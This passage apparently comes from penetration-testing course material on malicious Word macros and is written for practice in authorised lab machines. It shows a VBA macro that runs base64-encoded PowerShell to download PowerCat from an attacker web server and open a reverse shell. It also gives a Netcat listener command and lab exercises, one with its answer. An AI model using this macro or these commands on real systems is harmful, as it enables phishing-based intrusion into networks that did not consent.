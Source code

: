```vb
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
After we modify our macro, we can save and close the document. Before re-opening it, let's start a Python3 web server in the directory where the PowerCat script is located. We'll also start a Netcat listener on port 4444.

After double-clicking the document, the macro is automatically executed. Note that the macro security warning regarding the Enable Content button is not appearing again. It will only appear again if the name of the document changes.

After the macro is executed, we receive a GET request for the PowerCat script in our Python3 web server and an incoming reverse shell in our Netcat listener.

Opening the document ran the macro and sent us a reverse shell. Excellent!

Let's briefly summarize what we did in this section. First, we created a VBA macro in a Word document to execute a single command when the document is opened. Then, we replaced the single command with a base64-encoded PowerShell command downloading PowerCat and starting a reverse shell on the local system.  
`nc -nvlp 4444`  
Microsoft Office documents containing malicious macros are still a great client-side attack vector to obtain an initial foothold in an enterprise network. However, with the growing awareness of users to not open Office documents from emails and the rising number of security technologies in place, it becomes increasingly more difficult to get a macro delivered and executed. Therefore, we'll discuss another client-side attack in the next Learning Unit, which we can use as an alternative or even as a delivery method for malicious Office documents.

## Labs  
>Perform the steps from this section to create a malicious Word document containing a macro with the name MyMacro on the OFFICE (VM #1) machine. For this, you have to install Microsoft Office on VM #1 again as outlined in the section "Installing Microsoft Office". Confirm that the macro works as expected by obtaining a reverse shell from the OFFICE machine. What keyword is used to declare a variable in VBA? Dim

>Once you have confirmed that the macro from the previous exercise works, upload the document containing the macro MyMacro in the file upload form (port 8000) of the TICKETS (VM #2) machine with the name ticket.doc. A script on the machine, simulating a user, checks for this file and executes it. After receiving a reverse shell, enter the flag from the flag.txt file on the desktop for the Administrator user. For the file upload functionality, add tickets.com with the corresponding IP address in /etc/hosts. Please note that it can take up to three minutes after uploading the document for the macro to get executed.
